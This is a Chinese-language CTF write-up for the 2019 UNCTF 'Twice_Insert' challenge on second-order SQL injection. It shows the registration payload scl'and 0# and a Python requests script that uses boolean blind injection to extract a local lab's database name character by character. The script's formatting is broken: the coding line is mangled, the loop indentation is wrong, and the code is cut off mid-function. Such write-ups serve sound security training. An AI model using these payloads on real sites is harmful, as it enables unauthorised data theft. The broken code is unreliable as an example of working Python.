 ![](https://ctfwp.wetolink.com/2019unctf/Twice_Insert/072c4deede2956efe572d617b5530384.png)

需要将scl的密码重置为1

然后注册 scl’and 0# 1

登录修改密码

![](https://ctfwp.wetolink.com/2019unctf/Twice_Insert/4c28fdd6978b187d78ccb4e3a1dab41f.png)

提示

![](https://ctfwp.wetolink.com/2019unctf/Twice_Insert/83935b512a19b991f90f6be4add3eace.png)

说明更新失败，可以布尔盲注

1.  写个脚本

```
#
coding = utf - 8
import requests
url = "http://127.0.0.1/sqli/Less-24/login_create.php"
url1 = "http://127.0.0.1/sqli/Less-24/login.php"
url2 = "http://127.0.0.1/sqli/Less-24/pass_change.php"
#
将密码改回1
def change21():
    user = "scl"
    s = requests.session()
    data = {
        "login_user": user,
        "login_password": '0',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    data = {
        "current_password": '0',
        "password": '1',
        "re_password": '1',
        "submit": 'Reset'
    }
    r = s.post(url2, data)

def second():
    flag = ""
    tmp = 1
    for i in range(1, 50):
        if tmp == 0:
        break
    tmp = 0
    for j in range(32, 127):
        s = requests.session()
    user = "scl'and ascii(substr((select database())," + str(i) + ",1))=" +
        str(j) + "#"
    print user
    # 注册用户名
    data = {
        "username": user,
        "password": '1',
        "re_password": '1',
        "submit": "Register"
    }
    r = s.post(url, data)
    # 登录用户
    data = {
```